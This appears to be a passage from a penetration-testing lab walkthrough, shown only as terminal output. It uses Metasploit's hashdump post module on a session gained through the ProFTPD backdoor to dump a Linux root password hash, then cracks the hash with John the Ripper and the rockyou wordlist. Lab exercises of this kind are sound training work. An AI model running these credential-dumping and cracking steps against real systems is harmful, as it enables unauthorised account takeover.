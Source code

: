 ```
   11  post/osx/gather/hashdump                                               normal  No     OS X Gather Mac OS X Password Hash Collector
   12  post/solaris/gather/hashdump                                           normal  No     Solaris Gather Dump Password Hashes for Solaris Systems
   13  post/windows/gather/credentials/domain_hashdump                        normal  No     Windows Domain Controller Hashdump
   14  post/windows/gather/credentials/mcafee_vse_hashdump                    normal  No     McAfee Virus Scan Enterprise Password Hashes Dump
   15  post/windows/gather/credentials/mssql_local_hashdump                   normal  No     Windows Gather Local SQL Server Hash Dump
   16  post/windows/gather/hashdump                                           normal  No     Windows Gather Local User Account Password Hashes (Registry)
   17  post/windows/gather/smart_hashdump                                     normal  No     Windows Gather Local and Domain Controller Account Password Hashes


msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use 10
msf5 post(linux/gather/hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/hashdump) > set SESSION 2
SESSION => 2
msf5 post(linux/gather/hashdump) > run

[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230715115911_default_192.123.71.3_linux.hashes_039466.txt
[*] Post module execution completed
msf5 post(linux/gather/hashdump) > exit -y
```

```
msf5 post(linux/gather/hashdump) > exit -y
root@attackdefense:~# cat /root/.msf4/loot/20230715115911_default_192.123.71.3_linux.hashes_039466.txt
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

```
root@attackdefense:~# gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```
root@attackdefense:~# john --format=sha512crypt /root/.msf4/loot/20230715115911_default_192.123.71.3_linux.hashes_039466.txt --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 48 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (root)
1g 0:00:00:08 DONE (2023-07-15 12:06) 0.1126g/s 691.8p/s 691.8c/s 691.8C/s 123456..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
